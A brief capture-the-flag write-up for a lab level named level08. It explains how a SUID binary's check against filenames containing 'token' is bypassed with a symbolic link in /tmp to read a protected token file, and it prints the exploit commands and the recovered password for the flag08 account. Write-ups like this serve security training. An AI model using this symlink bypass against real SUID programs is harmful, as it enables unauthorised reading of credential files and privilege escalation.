

**SUID** binary and token file that contain password of **flag08**
```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```




This script read file with **level08** permission only if the filename doesn't contain the word *'token'*

Exploit
```
ln -s /home/user/level08/token /tmp/t
./level08 /tmp/t
```

```
su flag08 / quif5eloekouj29ke0vouxean
```

